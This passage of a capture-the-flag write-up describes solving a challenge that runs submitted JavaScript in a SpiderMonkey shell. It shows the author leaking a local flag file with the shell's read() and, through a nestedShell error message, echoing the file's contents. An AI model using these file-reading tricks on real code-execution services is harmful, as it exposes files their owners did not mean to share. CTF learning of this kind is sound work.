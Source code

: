 and got a very big output, which surprised me a little. Here is a portion of it:

```text
output:
clone,version,options [...] nestedShell
```

I looked through the listed keys for a while, until my attention was caught by the **nestedShell** function.
I thought that I could maybe use it to open a shell and read the flag.
I tried using the command like this:

```js
nestedShell("/flag.txt");
```

but I got an error:

```text
errors:
Error: can't open /flag.txt: No such file or directory.
493196937370842568.js:1:13 Error: error executing nested JS shell
Stack:
    @493196937370842568.js:1:13
```

Which prompted me to look on the Internet for some documentation.

I eventually stumbled across [this website](https://developer.mozilla.org/en-US/docs/Mozilla/Projects/SpiderMonkey/Introduction_to_the_JavaScript_shell)

which contained some commands of the **JavaScript shell** which is a command-line implementation of the one included in the Firefox browser.

Looking through these docs, I found about the command **read()** which allows you to read the contents of a local file.

I then submitted the following code:

```js
console.log(read("flag.txt"));
```

and the output contained the flag!

**NOTE**:
While writing this, I discovered another solution, that I missed by a hair.
This is to just submit a slightly different version of the **nestedShell** command:

```js
nestedShell("flag.txt");
```

which is the same but without the "/" at the start.
This produces the following error:

```text
errors:
flag.txt:1:6 SyntaxError: unexpected token: '{':
flag.txt:1:6 utflag{REDACTED}
flag.txt:1:6 ......^
1489857498705983299.js:1:1 Error: error executing nested JS shell
Stack:
  @1489857498705983299.js:1:1
```
